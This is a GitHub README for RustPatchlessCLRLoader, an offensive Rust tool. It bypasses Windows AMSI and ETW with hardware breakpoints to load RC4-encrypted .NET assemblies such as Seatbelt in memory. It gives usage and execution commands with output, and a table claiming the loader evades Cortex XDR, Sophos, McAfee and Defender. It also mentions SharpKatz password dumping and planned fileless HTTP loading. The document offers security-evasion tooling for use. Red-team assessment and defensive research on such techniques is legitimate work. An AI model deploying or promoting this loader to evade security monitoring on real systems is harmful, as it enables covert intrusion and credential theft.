 # RustPatchlessCLRLoader
The RustPatchlessCLRLoader leverages a sophisticated integration of patchless techniques for bypassing both Event Tracing for Windows (ETW) and the Windows Antimalware Scan Interface (AMSI) across all threads with the goal of loading .NET assemblies dynamically by utilizing the [clroxide](https://github.com/yamakadi/clroxide) Rust library. It provides a robust solution for executing managed code stealthily without modifying system artifacts or triggering security mechanisms.

## Background
Leveraging hardware breakpoints for patchless bypass presents several strategic advantages in cybersecurity assessments. This method eschews the use of well-known APIs like VirtualProtect, which are often scrutinized by advanced security solutions, thereby reducing the likelihood of detection. Additionally, the utilization of hardware breakpoints eliminates the need for direct modifications to files. Such alterations are typically flagged by file integrity monitoring systems or Endpoint Detection and Response (EDR) technologies. As a result, employing hardware breakpoints enables a more covert operation, enhancing the stealth aspect of security maneuvers. 

## Payload Encryption
RC4 Encrypt Payload: https://github.com/c2pain/RC4_Encryptor

SharpCollection: https://github.com/Flangvik/SharpCollection

Example:
```
C:\Users\C2Pain\Desktop> rc4_encryptor.exe Seatbelt.exe
[+] Encrypted shellcode saved to: S-e-a-t-b-e-l-t-4.enc
```

## Usage
```
C:\Users\C2Pain\Desktop>RustPatchlessCLRLoader.exe
[+] RustPatchlessCLRLoader by C2Pain.
[+] Github: https://github.com/c2pain/RustPatchlessCLRLoader
[!] Usage: RustPatchlessCLRLoader.exe <RC4 Encrypted File> <Arguments>
[!] Example: RustPatchlessCLRLoader.exe S-e-a-t-b-e-l-t-4.enc AntiVirus
```

## Execution
```
C:\Users\C2Pain\Desktop>RustPatchlessCLRLoader.exe S-e-a-t-b-e-l-t-4.enc AntiVirus
[+] RustPatchlessCLRLoader by C2Pain.
[+] Github: https://github.com/c2pain/RustPatchlessCLRLoader
[+] Running S-e-a-t-b-e-l-t-4.enc with args: ["AntiVirus"]
[+] NtTraceControl Bypass invoked at address: 0x7FF9618B0DE0
[+] AMSI Bypass invoked at address: 0x7FF949BE3880
[+] Results:



                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v1.2.2         ,(((&%%%%%%%%%%%%%%%%%,
                         #%%%%##,


====== AntiVirus ======

  Engine                         : Windows Defender
  ProductEXE                     : windowsdefender://
  ReportingEXE                   : %ProgramFiles%\Windows Defender\MsMpeng.exe



[*] Completed collection in 0.038 seconds
```

## AV/EDR Testing Result on x64 Windows 10/11
The RustPatchlessCLRLoader has been tested with various antivirus products, such as loading the "Seatbelt" assembly without triggering any detection. It is important to note that while this loader effectively bypasses AMSI and ETW without detection, engaging in overtly malicious activities - such as using SharpKatz for password dumping, may activate behavioral detection mechanisms. 

Test Date: 2 Aug 2024
| AV/EDR Product | Execute |
| ------ | ------ |
| Palo Alto Cortex XDR | :white_check_mark: |
| Sophos Intercept X | :white_check_mark: |
| McAfee | :white_check_mark: |
| Microsoft Defender | :white_check_mark: |

## Screenshots
Palo Alto Cortex XDR
![Palo Alto Cortex XDR Seatbelt](/screenshots/Cortex-testing.png)
![Palo Alto Cortex XDR Certify](/screenshots/Cortex-testing2.png)
Sophos Intercept X
![Sophos Intercept X Seatbelt](/screenshots/Sophos-testing.png)
McAfee
![McAfee Seatbelt](/screenshots/McAfee-testing.png)

## ToDo
- [ ] Powershell scripts support.
- [ ] Fileless support with HTTP/HTTPS.

## Credits
@yamakadi implementation of rust library that allows to host the CLR and dynamically execute dotnet binaries. [Link](https://github.com/yamakadi/clroxide)

@BlackSnufkin implementation of PatchlessBypass AMSI and ETW in rust. [Link](https://github.com/BlackSnufkin/Rusty-Playground)
